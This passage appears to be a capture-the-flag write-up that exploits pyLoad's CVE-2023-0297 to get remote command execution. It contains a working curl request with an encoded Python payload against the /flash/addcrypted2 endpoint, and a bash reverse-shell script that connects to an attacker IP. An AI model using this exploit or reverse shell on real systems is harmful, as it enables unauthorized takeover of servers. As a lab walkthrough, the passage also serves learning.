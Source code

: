 ![](./IMG/41.png)
- Search the vulnerability from internet, a privilege escalation CVE for pyLoad - CVE-2023-0297
- [CVE-2023-0297](https://github.com/JacobEbben/CVE-2023-0297)
- Download it from github.
- Besides this payload, I also found a PoC in [here](https://huntr.com/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/) 
- Following the PoC, I can execute the following command to execute something.
- Ex. touch something in /tmp/pwnd
```
curl -i -s -k -X $'POST' \
	-H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
	--data-binary $'package=xxx&crypted=AAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
	 $'http://127.0.0.1:8000/flash/addcrypted2'
```
- Decoded `jk` parameter: `pyimport os;os.system("touch /tmp/pwnd");f=function f2(){};`
![](./IMG/42.png)
- Confirm the pwnd also created in /tmp
![](./IMG/43.png)
- Then, I know I can using this vulnerability to execute command remotely, then I also can let it execute a reverse shell to connect to my host.
- Create a reverse shell like follow
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.107/1337 0>&1
```
- Upload reverse shell to target 
![](./IMG/44.png)
